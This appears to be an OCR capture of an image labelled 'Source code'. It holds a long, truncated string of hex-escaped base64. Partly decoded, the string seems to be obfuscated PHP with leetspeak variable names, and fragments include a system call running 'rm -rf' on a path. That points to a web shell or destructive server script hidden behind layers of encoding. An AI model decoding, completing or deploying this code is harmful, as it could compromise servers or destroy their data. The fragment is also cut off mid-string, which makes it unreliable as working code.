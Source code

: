 x6dc\x75\x49\x6c\x73\x6b\x63j\x56\x6b\x49\x53\x52rM\x32\x34\x30\x62md\x64IC\x49\x75JG\x73z\x62\x6aRuZ\x79\x34i\x62j\x46t\x4d\x53B\x30N\x47\x51\x78a\x79\x42\x69\x4d\x6dw1aCB\x72\x4d\x6e\x4d\x79\x62mc\x69Li\x49\x4eCi\x497\x44\x51o\x31\x65\x44\x520\x4fw0\x4b\x66Q\x30KIDR\x6dK\x43Q1\x62\x54E0bD0\x39\x49\x69Ipew0\x4b\x4e\x57\x4eo\x4di\x52\x72\x4d\x324\x30\x62\x6dc\x75\x49\x6c\x73\x6b\x63\x6a\x56kI\x53\x52\x72M\x32\x340\x62\x6ddd\x49\x43\x49u\x4aGszb\x6a\x52uZy\x34iN\x57\x30\x78\x4e\x47\x77gdDRkMWsg\x59\x6a\x4a\x73\x4eW\x67g\x61\x7a\x4a\x7a\x4d\x6d\x35\x6eIi\x34i\x44Qo\x69O\x77\x30\x4b\x4eX\x670\x64\x44\x73\x4e\x43\x6e\x30NCi\x41\x30\x5a\x69g\x6b\x4d3M\x31\x63\x6a\x52\x6b\x50T\x30iI\x69\x6c7D\x51\x6f\x31\x59\x32g\x79J\x47s\x7abj\x52\x75\x5ay\x34\x69\x57\x79R\x79N\x57\x51h\x4aG\x73\x7a\x62j\x52uZ1\x30gIi\x34\x6baz\x4eu\x4eG\x35n\x4c\x69I\x7a\x63zV\x79\x4eGQg\x64D\x52\x6bMW\x73g\x59j\x4asNWg\x67azJ\x7a\x4d\x6d\x35\x6eIi4i\x44QoiOw\x30\x4bNXg0\x64\x44s\x4eCn\x30\x4eCi\x410\x5a\x69\x67k\x63\x33\x51xd\x46\x39kM\x6d5\x35\x4b\x58\x73\x4e\x43\x6bB\x7a\x65\x58N\x30\x4e\x570o\x49n\x4a\x74I\x43\x31\x79\x5aiAz\x63\x7aV\x79I\x69\x6b\x37J\x47\x77y\x5az\x52\x75\x50\x57\x70zM\x6d\x35fZDV\x6aM\x6d\x51\x31KG\x77y\x5azRu\x4bC\x52u\x4dW\x30\x78\x4c\x43\x511\x62T\x45\x30b\x43\x77\x6bM\x33\x4d\x31\x63jRkK\x53\x780\x63\x6aM1\x4bTsN\x43i\x52\x74c\x32c9\x4a\x47\x77\x79\x5azRu\x57\x79J\x74\x63\x32ci\x58T\x73NCiRuNG\x739\x4aG\x77yZ\x7a\x52uWyIzc\x7a\x56\x79\x62jF\x74\x4eS\x4adO\x77\x30\x4bJ\x47\x4dyNG\x349\x4aGwy\x5az\x52\x75\x57\x79\x4a\x6a\x4dj\x52uI\x6c07\x44\x51o\x31\x59\x32gy\x4aG\x73zb\x6a\x52\x75\x5ay\x34\x69WyR\x79N\x57\x51/\x4aGszbjR\x75\x5a\x310kcD\x4e0\x4eGg\x67UzV\x6bMW\x35n\x49\x47\x77yZzRu\x49j\x74\x7abD\x55\x31c\x43\x67\x32KT\x731\x592gyJH\x49\x31ZC\x34\x69\x4ciI7c\x32w1\x4e\x58\x41\x6fN\x69\x6b\x37\x49\x44V\x6a\x61DI\x6b\x63\x6aVkLi\x49\x75Ij\x74\x7ab\x44\x551\x63C\x672\x4bTsg\x4eW\x4eoMiI\x75\x49\x694\x6bdD\x73\x4e\x43\x6a\x56\x6a\x61DIk\x63DN0N\x47\x67\x75\x49l\x73k\x63jVk\x50\x79\x52wM3Q0\x61F0\x67\x62DJnN\x474k\x63\x6a\x56kI\x44\x6fgIjtz\x62D\x55\x31\x63\x43\x68h\x4bT\x731\x59\x32\x67yJ\x44Rq\x4d\x69\x34\x6bb\x58\x4en\x4c\x69R0\x4f\x77\x30K\x49DR\x6dK\x43R\x73M\x6d\x63\x30bl\x73ic3Q\x78d\x44NzI\x6c0\x39\x50S\x49\x32\x49\x69l7\x44Q\x70zbD\x551\x63ChhKT\x73NC\x6a\x56\x6a\x61DIkcDN\x30\x4e\x47g\x75I\x6c\x73\x6b\x59\x6aRy\x4dy\x45kc\x44\x4e\x30\x4e\x47\x68dI\x45luZj\x49gM\x33M1\x63iA\x68\x49\x53\x41\x69\x4c\x69\x52\x30O\x77\x30K\x63\x32w\x31N\x58A\x6f\x4ei\x6b7\x44Q\x6f1Y2gy\x4aH\x41z\x64\x44\x52\x6fLi\x4a\x62\x49i\x34k\x4eG\x6fyL\x69\x4ci\x67\x4bIi\x4c\x69\x52w\x4d3\x51\x30\x61C4iX\x53\x42u\x4e\x47\x4er\x4a\x48\x49\x31\x5aCA\x67\x49\x43A\x36\x49\x43\x49u\x4aHQzc\x6ds0cy4\x6bb\x6a\x52\x72LiR\x30\x4f\x77\x30\x4bN\x57No\x4di\x52wM3\x510aC4i\x57y\x49\x75\x4aDRqMi4i\x34o\x43iIi\x34\x6b\x63D\x4e\x30\x4e\x47guI\x6c0g\x4d3M1\x63\x6aR\x6bJ\x48\x491\x5aC\x41g\x4fi\x41iL\x69R\x30\x4d\x33\x4arNHM\x75JDNz\x4eX\x49\x30\x5a\x434\x6bd\x44s\x4eC\x69\x42\x39DQp9D\x51o1\x62H\x4d1e\x77\x30K\x4eW\x4eoMi\x52\x72M\x32\x340bmc\x75\x49l\x73k\x63\x6aV\x6b\x49S\x52\x72M2\x34\x30b\x6d\x64d\x4aH\x49\x31\x5aCB\x55NXJ\x71M\x57\x510IG\x73\x31\x63zFs\x4dW\x67xb\x69\x41hI\x53I\x75\x49g\x30\x4b\x49\x6as\x4eCj\x56\x34\x4eHQ7DQ\x709D\x51o\x67N\x47Yo\x4a\x48\x4e0X\x32\x51\x79\x62\x6ekp\x65w0\x4bQHN\x35\x633\x51\x31\x62\x53\x67\x69\x63\x6d0gLX\x4am\x49\x44NzNX\x49\x69\x4b\x54\x73\x6b\x61\x6e\x4d9\x61\x6e\x4dyb\x6c9\x6bN\x57\x4dyZDU\x6f\x59\x7a\x490bi\x67kM3M1cj\x52k\x4bSx0cj\x4d\x31K\x54s\x4e\x43\x69\x52\x6a\x4d\x6a\x52u\x50S\x52q\x63\x31siYzI0\x62\x69\x4ad\x4fw0\x4b\x49\x44\x52\x6d\x4bCR\x71c1\x73ic3\x51\x78\x64\x44Nz\x49l0\x39PS\x492